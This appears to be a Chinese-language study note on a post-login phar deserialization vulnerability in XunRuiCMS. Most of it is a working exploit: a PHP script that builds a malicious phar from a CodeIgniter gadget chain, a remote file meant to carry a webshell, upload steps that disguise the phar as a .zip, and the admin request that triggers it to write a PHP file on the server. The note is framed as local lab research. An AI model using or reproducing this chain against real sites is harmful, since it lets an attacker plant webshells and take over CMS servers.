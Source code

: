 ```yaml
---
title: 讯睿cms后台反序列化漏洞
date: 2024-08-04 22:54:17
secret: "true"
---
```

tips:如果是本地小皮搭建，需要使用apache为中间件，且php.ini的phar.readonly需要为Off

```
[Phar]
; http://php.net/phar.readonly
phar.readonly = Off
```

前提条件是需要登录后台，

首先自己本地使用下方代码生成``phar.phar``

```
<?php

namespace {

    ini_set('display_errors', 1);

    ini_set('display_startup_errors', 1);

    error_reporting(E_ALL);

}

namespace CodeIgniter\Cache\Handlers {

    use CodeIgniter\Session\Handlers\MemcachedHandler;


    class RedisHandler {

        protected $redis;

        public function __construct() {

            // 实例化不同命名空间中的 RedisHandler 类

            $this->redis = new MemcachedHandler();

        }

    }

}

namespace CodeIgniter\Session\Handlers{

    use CodeIgniter\HTTP\CURLRequest;

    class MemcachedHandler {

        public $memcached;

        public $lockKey;

        public function __construct()

        {

            $this->lockKey='http://127.0.0.1/88.php'; //远程服务器所需要准备的文件

            $this->memcached = new CURLRequest();

        }

    }

}

namespace CodeIgniter\HTTP{

    class CURLRequest
    {
        protected $config = [];
        public function __construct()
        {

           $this->config = [

            // 'timeout'         => 1.0,

            // 'connect_timeout' => 150,

            'debug'           => "../../../WWW/XunRuiCMS-Study/666.php", //所生成马的文件，建议绝对路径，这样会生成在php.exe的目录

            'verify'          => true,

        ];
        }
    }

}

// 全局命名空间

namespace {

    use CodeIgniter\Cache\Handlers\RedisHandler;

    $phar = new Phar("phar.phar");

    $phar->startBuffering();

    $phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub

    $o = new RedisHandler();

    $o -> data='hu3sky';

    $phar->setMetadata($o); //将自定义的meta-data存入manifest

    $phar->addFromString("test.txt", "test");

    //签名自动计算

    $phar->stopBuffering();

  
  

//    $o = new RedisHandler();

//    print_r(urlencode(serialize($o)));

}
```

``88.php``代码为(可放马)
```
<?php

header("Content-Type: application/json <?php phpinfo();?>");
```

然后找到文章的附件上传处
![Pastedimage20240804230432.png](../资源文件/图片/Pasted-image-20240804230432.png)]

上传``phar.phar``改后缀为``.zip``
可以在这边查看路径，文件名称
![Pastedimage20240804231218.png](../资源文件/图片/Pasted-image-20240804231218.png)]

然后在另开一个页面
```
http://xunruicms-study:8009/admin.php?c=api&m=test_avatar_domain

image[avatar_path]=phar://./uploadfile/202408/37738d115ba9223.zip
```

![Pastedimage20240804231519.png](../资源文件/图片/Pasted-image-20240804231519.png)]
即可在指定目录生成文件

![123.png](../资源文件/图片/123.png)
